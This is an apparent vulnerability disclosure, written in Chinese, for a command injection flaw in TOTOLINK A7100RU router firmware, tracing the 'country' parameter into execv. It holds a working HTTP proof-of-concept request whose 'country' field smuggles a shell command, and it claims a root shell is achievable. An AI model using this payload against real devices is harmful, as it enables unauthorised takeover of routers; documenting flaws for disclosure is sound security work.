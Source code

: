 # TOTOlink A7100RU(V7.4cu.2313_B20191024)路由器存在命令注入漏洞

## 写在前面

厂商信息：http://totolink.net/

固件下载地址：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1.影响版本

![img](img/wps10.jpg) 

 

 

图1为固件版本信息

## 2.漏洞细节

![image-20220720191515170](img/image-20220720191515170.png)

程序通过获取country参数下的内容传递给v10，之后将v10带入到Uci_Set_Str函数中

![image-20220720191538434](img/image-20220720191538434.png)

在Uci_Set_Str函数中，通过snprintf函数，将a4匹配到的内容格式化进v11，之后将v11带入cstesystem函数中

![image-20220720191600203](img/image-20220720191600203.png)

函数直接将用户输入内容带入到execv函数中，存在命令注入漏洞

POC

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/delStaticDhcpRules",
"country":"1$(ls>/tmp/123;)"}
```

复现结果如下

![img](img/wps11.png) 

 

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

![img](img/wps12.png) 

 